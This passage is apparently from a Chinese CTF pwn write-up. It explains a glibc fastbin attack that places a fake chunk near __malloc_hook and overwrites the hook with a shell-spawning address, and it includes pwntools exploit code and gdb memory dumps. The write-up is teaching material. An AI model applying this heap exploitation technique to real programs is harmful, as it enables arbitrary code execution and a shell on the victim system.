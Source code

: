 ```python
0x7f39c88a8b15 <__malloc_hook+5>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

在此之后将chunk5申请回来，对管理器就会将fastbin指向原chunk5的fd，

然后再申请一个chunk，此时它的编号为7，是经过构造的fake chunk，

它的位置是 `__malloc_hook - 0x23` 开始的，大小是0x10+0x60=0x70

（这个fakechunk中的数据是main_arena中的重要数据，修改可以劫持，也可能导致崩溃）

```python
alloc(0x60) # Chunk5
alloc(0x60) # Chunk7, fakeChunk
fill(7, 0x1b, b'z'*0x13 + p64(system))
dbg=1

# target.interactive() 
# # interactive后手动输入 1 回车 1 回车，或者alloc代为输入
alloc(0x10) # pwn!

dbg=1
target.interactive()
```

对fake chunk填入数据，目标是覆盖 `__malloc_hook` ，先填入0x13个z，然后0x14开始到0x1b的8个字节就是 `__malloc_hook` 的内容，使用`p64(system)`填充覆盖。

在fill之后，gdb跟进，可以观察到chunk7（fake chunk）的内容，从第二行开始填充了0x10个'z'(0x7a)

然后第三行填充了三个'z'(0x7a)，然后选中部分包含了覆盖的 `__malloc_hook`

![Alt text](./img/image-18.png)

更直观地，直接对 `__malloc_hook` 位置进行观察，可以看到此处地址已经被覆盖为了之前输出的名为system的getshell的地址  
`[*] System is:      0x7fbc4a18a26a`

![Alt text](./img/image-19.png)

此时 `__malloc_hook` 已经被劫持，现在再申请一个内存就会调用 `__malloc_hook` ，而调用getshell代码。

但是由于libc库等原因，非ubuntu16的系统多少会出现一些问题，所以最后的实际运行转移到ubuntu16机器上进行。

（远程靶机则使用pwntools的 `p=remote("<doamin>",<port>)` 连接即可）

## 实际运行

